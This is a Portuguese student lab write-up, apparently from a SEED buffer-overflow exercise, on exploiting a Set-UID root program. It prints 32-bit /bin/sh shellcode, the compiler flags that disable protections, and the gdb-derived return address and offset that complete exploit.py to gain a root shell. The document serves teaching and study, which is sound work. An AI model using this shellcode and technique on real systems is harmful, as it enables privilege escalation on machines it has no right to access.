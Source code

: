# Trabalho realizado na Semana #5

## Tarefa 1
Como era de esperar, se não se tornasse o executável em *Set-UID*, a *shell*
aberta não tinha permissões de *root*:  
![/imgs5/shell_seed.png](/imgs5/shell_seed.png)  

Mesmo o executável sendo *root-owned* e *Set-UID*, caso não fosse compilado com a flag *execstack*, que dá
permissões para executar código da stack, acontence um *Segmentation fault*:  
![/imgs5/shell_segfault.png](/imgs5/shell_segfault.png)  

Com *execstack* e sendo o programa *Set-UID root-owned* a *shell* aberta tem permissões de *root*:  
![/imgs5/shell_root.png](/imgs5/shell_root.png)  

Não foram detetadas diferenças entre as versões de 32 e 64 *bits*.  


## Tarefa 2
Foi apresentado o código vulnerável e procedeu-se à sua compilação.  
Bastou executar:
```sh
make
```
Contudo, sem esquecer que a compilação teve que ser feita com as
flags
```
-z execstack -fno-stack-protector
```
de modo a ser possível executar código na *stack*, o *shellcode* que vamos injetar, e
não serem feitas verificações adicionais que impedem este tipo de ataques.  


O código apresentado tem uma vulnerabilidade de *buffer overflow* dado
que, copia um máximo de 517 *bytes* para um *buffer* de 100 *bytes*.  

De um modo geral, a *stack* do programa, quando estiver a executar a função *bof*,
terá um aspeto semelhante ao da figura abaixo:

![/imgs5/stack.png](/imgs5/stack.png)

Assim sendo, e dado que a vulnerabilidade do programa permite escrever
até 517 *bytes* para o buffer que só tem 100, os restantes 417 vão ser escritos
a partir de *buffer[100]*, ou seja, será possível substituir o conteúdo
do endereço de retorno e fazer com que, quando a função *bof* retornar, ela
o faça para o *shellcode* que pretendemos injetar.

## Tarefa 3

Para fazer o exploit, foi dado um *script* em python, *exploit.py*, que gera o *badfile*.  
Contudo, há várias informações que estão em falta e é preciso adicionar.  

Primeiramente, foi necessário o *shellcode* que vamos injetar. Para isso,
usámos o shellcode fornecido na tarefa 1 para a versão de 32 *bits* e que abre
uma *shell*:
```c
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
```

As variáveis que são necessárias fixar são então:  
1. Zona onde colocar o *shellcode*
2. Endereço de memória da zona onde vai ficar o *shellcode*
3. Diferença entre o endereço de retorno que se pretende dar *overwrite* e o início do *buffer*

Quanto ao ponto `1`, decidimos colocar o *shellcode* logo no início do buffer. Assim sendo:
```py
start = 0
```

Quanto ao ponto `2`, uma vez que temos acesso ao *source code*, inserimos um *printf()* do buffer
de modo a obter o seu endereço dentro da função *bof*:
```c
int bof(char *str) {
    char buffer[BUF_SIZE];
    printf("buffer pointer: %p\n", buffer);
    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);
    return 1;
}
```

Ao executar o programa obtivemos então o valor `0xffffcadc`:  
![/imgs5/buffer_pointer.png](/imgs5/buffer_pointer.png)

Logo,
```py
ret = 0xffffcadc
```
Dado que é o endereço do *buffer* e estamos a colocar o *shellcode* no seu início.

Quanto ao ponto `3`, como sugerido no enunciado, recorremos ao *gdb*:  
![/imgs5/gdb_stack_l1_dbg.png](/imgs5/gdb_stack_l1_dbg.png)

De seguida, criámos um breakpoint na função *bof*:  
![/imgs5/b_bof_run.png](/imgs5/b_bof_run.png)

Após isso, corremos *next* de modo a entrar no contexto da função *bof*:  
![/imgs5/next.png](/imgs5/next.png)

Finalmente, obtivémos o endereço do *ebp* e do *buffer* para calcular a sua diferença:  
![/imgs5/ebp_buffer_diff.png](/imgs5/ebp_buffer_diff.png)

(Nota: o endereço do *buffer* aqui obtido não pode ser usado para fazer *exploit* ao
executável `stack-L1` devido a elementos extra que o executável de debug adiciona
à stack e que faz com que os endereços sejam diferentes.)

Deste modo, o *ebp* está 108 *bytes* acima de `buffer[0]`. Assim, e dado que o
endereço de retorno se encontra imediatamente acima do *ebp* basta adicionar 4 (versão de 32 *bits*) ao 108,
completando assim o *exploit.py*:
```py
offset = 112
```

Com o script de python completo, bastou executá-lo para gerar o *badfile*:
```sh
python3 exploit.py
```

e executar o programa, `stack-L1`, para por a prova o exploit:  
![/imgs5/exploit_root_access.png](/imgs5/exploit_root_access.png)

Como se pode confirmar, foi assim obtida a *shell* com permissõe de *root*.

## CTF
